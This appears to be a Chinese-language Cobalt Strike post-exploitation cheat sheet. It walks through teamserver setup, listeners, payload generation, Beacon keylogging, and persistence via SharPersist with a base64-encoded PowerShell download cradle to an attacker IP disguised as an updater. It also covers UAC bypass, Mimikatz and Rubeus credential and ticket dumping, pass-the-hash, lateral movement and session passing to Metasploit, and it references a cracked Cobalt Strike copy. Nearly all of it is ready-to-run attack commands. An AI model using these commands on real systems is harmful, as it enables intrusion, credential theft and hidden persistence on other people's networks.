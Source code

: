 
# 基本
- **建立服务器（攻击者）:**
```bash
sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile
sudo ./teamserver [Attack IP] [Set Password] [配置文件]
```

- **链接服务器（攻击者）：**
直接启动 Cobalt Strike 客户端然后输入凭据链接即可。


#### 被动信息收集
Attack > System Profiler
可以设置重定向，后复制网址到被攻击机器，访问后就可以得到机器的基本信息。


#### 设置监听器
**http** (出口监听器)
**dns** (出口监听器)
**smb (p2p)** ：  可以使用 `PS C: \> ls \\.\pipe\` 列出所有当前正在收听的管道以获取灵感。
比如说 `TSVCPIPE-7ca725ce-7220-489f-a9b5-d4cad2bc1337`
**tcp**
**tcp-local**


#### 生成有效载荷
在 Payloads 中选择 `Windows Stageless Generate All Payloads`，生成所有有效载荷, 执行 http_x64.exe 后即可收到回应。


#### 命令 (Beacon)
```
pwd   当前目录路径
sleep 5   更快的回应
ps
screenshot
keylogger  (View > Keystrokes)    (使用jobs可以查看任务，jobkill ID 可以杀死keylogger的job)
clipboard  （粘贴板内容）
net logons  (用户登录会话)
run wmic service get name, pathname  (每个服务的列表及其可执行文件的路径)
shell + CMD
execute-assembly C:\Users\13461\Desktop\KALI_Tools\Seatbelt.exe -group=system (https://github.com/GhostPack/Seatbelt)
getuid

```


#### 数据透视侦听器
作用为转发流量，隐藏活动等
在图像界面右键 Attack 然后 Pivoting > Listener, 创建 demo-pivot
生成有效载荷： Payloads > Windows Executable (Stageless), 选中刚刚创建的 demo-pivot , 生成后直接执行即可。


#### 主机持久性
https://github.com/mandiant/SharPersist (添加各种命令要用到的工具)
BASE 编码要执行的命令
```
Win: 
$str = 'IEX ((new-object net.webclient).downloadstring("http://192.168.55.128:80/a"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))

Linux:
echo 'IEX ((new-object net.webclient).downloadstring("http://192.168.55.128:80/a"))' | iconv -t UTF-16LE | base64 -w 0
```

- 计划任务程序
```powershell
execute-assembly C:\Users\13461\Desktop\KALI_Tools\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA1AC4AMQAyADgAOgA4ADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly
```
`-t`: 持久化选项
`-c`: 执行的命令
`-a`: 命令的参数
`-n`: 任务的名称
`-m`: 添加任务(也可以 `remove`、`check` 和 `list`)
`-o`: 任务频率


- 启动文件夹
```powershell
execute-assembly C:\Users\13461\Desktop\KALI_Tools\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4ANQA1AC4AMQAyADgAOgA4ADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add
```
`-f`: 另存为的文件名


- 注册表自动运行
```powershell
cd C:\ProgramData
upload C:\Users\13461\Desktop\CobaltSrike_4.9.1_Cracked_www.ddosi.org\Payloads\beacon_x64.exe
mv beacon_x64.exe fake_updater.exe
execute-assembly C:\Users\13461\Desktop\KALI_Tools\SharPersist.exe -t reg -c "C:\ProgramData\fake_updater.exe" -a "/q /n" -k "hkcurun" -v "fake_updater" -m add
```
`-k`: 修改的注册表项
`-v`: 创建的注册表项的名称


#### UAC Bypass / Mimikatz / Rubeus
- UAC Bypass
```bash
elevate uac-schtasks tcp-local (UAC bypass)
以高完整性运行
```

- Mimikatz 系列
```bash
beacon> mimikatz token::elevate ; lsadump::sam

也可以将 'token::elevate' 代替为 '!'
beacon> mimikatz !lsadump::sam (转储本地帐户的 NTLM 哈希)

beacon> mimikatz !sekurlsa::logonpasswords (转储内存中的NTLM明文密码)
beacon> mimikatz !sekurlsa::ekeys (转储当前登录用户的 Kerberos 加密密钥, AES256 密钥就是我们想要的密钥)
beacon> mimikatz !lsadump::cache  (域缓存凭证, MsCacheV2只能离线破解，需要格式化格式 $DCC2$<iterations>#<username>#<hash>)

(都会留下敏感资源的句柄)
```

- Rebeus
https://github.com/GhostPack/Rubeus
列出计算机上所有登录会话中的所有 Kerberos 票证
```bash
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt [/nowrap (将Base64(key)格式化到一行,方便复制)] (获取TGT)
```
Rubeus 的 `dump` 命令将从内存中提取这些票证 - 但由于它使用 WinAPIs，因此不需要向 LSASS 打开可疑句柄。


# 域内技术
#### 内网上线 CS
- 正向链接
生成 Beacon TCP , 0.0.0.0 4444
拿到域内 shell 后上传执行 exe，外网主机 connect 域内执行 exe 的主机
```
connect 10.0.20.99 4444  
```

- 反向链接
转发上线 -> 监听地址选择能访问的内网主机 ip -> Save
直接 exe 上线即可


#### 枚举
PowerView
```bash
beacon> powershell-import C:\Users\13461\Desktop\KALI_Tools\PowerView.ps1

beacon> powershell Get-Domain [-Domain]（有用的信息包括域名、林名称和域控制）
beacon> powershell Get-DomainController [-Domain] | select Forest, Name, OSVersion | fl （返回当前域或指定域的域控制器）
beacon> powershell Get-ForestDomain [-Forest] (返回当前林或 `-Forest` 指定的林的所有域)
beacon> powershell Get-DomainPolicyData | select -expand SystemAccess (返回当前默认域策略)
beacon> powershell Get-DomainUser -Identity UserName -Properties DisplayName, MemberOf | fl
beacon> powershell Get-DomainComputer -Properties DnsHostName | sort -Property DnsHostName (返回所有计算机或特定计算机对象)
beacon> powershell Get-DomainOU -Properties Name | sort -Property Name (OU)
beacon> powershell Get-DomainGroup | where Name -like "*Admins*" | select SamAccountName (组对象)
beacon> powershell Get-DomainGroupMember -Identity "Domain Admins" | select MemberDistinguishedName (组内用户)
beacon> powershell Get-DomainGPO -Properties DisplayName | sort -Property DisplayName （组策略对象）
```

SharpView
https://github.com/tevora-threat/SharpView
```
beacon> execute-assembly C:\Tools\SharpView\SharpView\bin\Release\SharpView.exe Get-Domain
```


#### 用户模拟
-  Hash 传递
```bash
beacon> pth win2016\system 570a9a65db8fba761c1008a51d4c95ab (模拟hash会话)
beacon> rev2self (恢复初始会话)
```

- make_token
```bash
beacon> make_token win2016\administrator Admin@123
beacon> remote-exec psexec/winrm/wmi win2016 whoami
```


#### 横向移动
```
beacon> jump winrm64 win2016 smb   (返回一个高完整性Beacon，该会话以交互的用户身份运行)
beacon> jump psexec64 win2016 smb (Beacon用户为SYSTEM)
```

- WMI
```
beacon> cd C:\progarmdata\
beacon> upload C:\Users\13461\Desktop\CobaltSrike_4.9.1_Cracked_www.ddosi.org\Payloads\smb_x64.exe
beacon> remote-exec wmi win2016 C:\programdata\smb_x64.exe
beacon> link win2016 msagent_cf
```
*其中, msagent_cf 为 smb_beacon 的 pipe 名字


#### 会话传递
- CS 上线主机 -> MSF
*Beacon 一定是得是 Stageless 的 reverse_http, 并且 Foreign 的 HTTP port 是没有被使用过的
```bash
msfconsole -q
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_http
...
msf6 exploit(multi/handler) > run

beacon> spawn msf
```
在 msf 中即可收到会话
